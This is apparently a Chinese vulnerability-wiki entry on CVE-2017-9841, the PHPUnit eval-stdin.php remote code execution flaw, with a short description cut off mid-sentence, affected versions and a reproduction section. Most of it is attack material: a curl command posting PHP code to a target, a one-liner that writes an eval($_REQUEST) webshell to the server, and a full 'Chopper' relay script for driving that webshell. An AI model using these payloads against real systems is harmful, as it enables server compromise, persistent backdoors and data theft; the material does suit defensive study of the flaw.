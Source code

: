 （CVE-2017-9841）PHPunit 远程代码执行漏洞
=========================================

一、漏洞简介
------------

TYPO3是瑞士TYPO3协会维护的一套免费开源的内容管理系统。PHPUnit是其中的一个基于PHP的测试框架。PHPUnit4.8.28之前的版本和5.6.3之前的5.x版本中的Util/PHP/eval-stdin.php文件存在安全漏洞。远程攻击者可通过发送以'

二、漏洞影响
------------

PHPUnit 4.8.19-4.8.27PHPUnit 5.0.10-5.6.2

三、复现过程
------------

    $ curl --data "<?php echo(pi());" http://www.0-sec.org:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

总体来说就是向**vendor/phpunit/src/Util/PHP/eval-stdin.php**发送POST请求执行php代码。![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId24.png)![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId25.png)也可以直接写入一句话\*\*\<?=file\_put\_contents(\"1.php\",
\'\<?=eval(\$\_REQUEST\[1\]);?\>\');\*\*![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId26.png)![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId27.png)

### poc

> 因为直接是RCE，如果当前目录可写，直接POST这样的body:

**菜刀中转脚本**

> 使用20160622版本的菜刀，可以直接连目标，可以执行命令，但是不可以上传修改文件。

    <?php
    $webshell="";
    $data = file_get_contents("php://input");
    $data=substr($data,1);
    $data=str_replace("%2F",'/',$data);
    $data=str_replace("%2B",'+',$data);
    $data=str_replace("%3D",'=',$data);
    $data= "<?php ". $data;
    echo $data;

    $opts = array (
    'http' => array (
    'method' => 'POST',
    'header'=> "Content-type: application/x-www-form-urlencoded\r\n" .
    "Content-Length: " . strlen($data) . "\r\n",
    'content' => $data)
    );

    $context = stream_context_create($opts);
    $html = @file_get_contents($webshell, false, $context);
    echo $html;
    ?>
